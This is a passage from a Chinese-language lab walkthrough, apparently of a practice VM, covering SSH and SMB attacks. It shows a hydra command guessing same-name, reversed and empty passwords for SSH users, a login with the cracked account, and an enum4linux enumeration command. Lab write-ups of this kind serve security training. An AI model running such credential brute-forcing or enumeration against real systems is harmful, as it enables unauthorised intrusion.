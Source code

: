 ### ssh 服务

根据上面获得的能够登录的所有用户 ssh\_user\_name，利用 hydra 检测是否存在同名口令、同名逆口令、空口令等

```bash
hydra -L ssh_user_name -e nsr ssh://192.168.179.149
```

[![](assets/1699929525-04d21d2c5356067c7d9076f2704c2a62.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112135100-74e3e536-811f-1.png)

利用用户名 SHayslett 和密码进行 ssh 登录：

```bash
ssh SHayslett@192.168.179.149
```

[![](assets/1699929525-646a8de51b5f006592705390e844c53d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112135116-7efcf1f2-811f-1.png)

### smb 服务

使用 enum4linux 探测 smb 服务

```bash
enum4linux -a 192.168.179.149 | tee smb_result
```
